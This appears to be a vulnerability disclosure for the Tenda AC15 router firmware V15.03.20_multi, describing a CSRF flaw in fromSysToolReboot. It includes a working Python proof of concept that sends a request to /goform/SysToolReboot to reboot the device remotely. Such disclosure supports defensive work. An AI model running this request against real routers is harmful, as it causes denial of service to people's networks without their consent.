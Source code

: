 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi has a Cross Site Request Forgery (CSRF) vulnerability located in the `fromSysToolReboot` function. It allows remote attackers to reboot the device and cause denial of service.

![image-20240308165955719](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308165955719.png)

![image-20240308170203962](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308170203962.png)

## PoC

```python
import requests

url = "http://192.168.84.101/goform/SysToolReboot"

headers = {
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Cookie': 'bLanguage=cn; user=; password=yrhsd',
    'Connection': 'close'
}

response = requests.get(url, headers=headers)

print(response.text)
```

![image-20240316182317089](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316182317089.png)